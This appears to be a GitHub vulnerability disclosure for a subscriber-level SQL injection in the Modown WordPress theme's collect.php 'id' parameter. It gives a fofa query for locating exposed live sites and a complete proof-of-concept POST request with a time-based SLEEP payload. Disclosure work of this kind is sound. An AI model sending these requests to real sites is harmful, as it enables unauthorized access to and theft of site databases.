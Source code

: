 # modown-sql-Injection
In the Wordpress Theme Modown <=9.1 version, there is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file. Attackers can execute arbitrary SQL statements by constructing malicious requests, which may lead to data leakage, data tampering, or other malicious operations.


([Modown Wordpress Theme](https://www.mobantu.com/7191.html) "Click here to download the theme")

There is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file.
The id parameter is directly spliced ​​into the SQL statement without filtering
<img width="1054" alt="image" src="https://github.com/user-attachments/assets/7ef4c7c8-3c6b-4cdf-98b3-aaddf63d55bf" />

Authenticated users (only subscriber permissions are needed) can initiate requests to this interface. Specially constructed id parameters can lead to SQL injection, causing database data leakage and further obtaining system control permissions.

## 1.Affected assets

Wordpress websites using this theme can be searched through the fofa engine through the following statement:

**body="/wp-content/themes/modown/style.css"**

or follow this link
([Affected assets](https://fofa.info/result?qbase64=Ym9keT0iL3dwLWNvbnRlbnQvdGhlbWVzL21vZG93bi9zdHlsZS5jc3Mi) )

You can download the Wordpress Theme Modown 9.1 in this repro
and install it 
https://github.com/lambda-s/modown-sql-Injection/blob/main/modown-9.1.zip

![alt text](image-1.png)


### 2.Proof of Concept
Use the logged in user credentials to send the following request,
And Use delayed injection to verify whether the vulnerability exists
```
POST http://127.0.0.1/b2/wp-content/themes/modown/action/collect.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_4d5fcc3d94935439d70344b91f1f5e04=yanbochen%7C1752294341%7COZf9zFYCcdstArjuUDuQfze9nNCIVWRqLCEAeF5V54z%7Cc44b7777c014e941d331d38c9b56de20531a6ae3af8afac995a624179e5df07e; wp-settings-time-1=1752121635
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

id=1+AND+(SELECT+1663+FROM+(SELECT(SLEEP(5)))TCke)
```

![alt text](image-2.png)

#### Get database name
![alt text](image-3.png)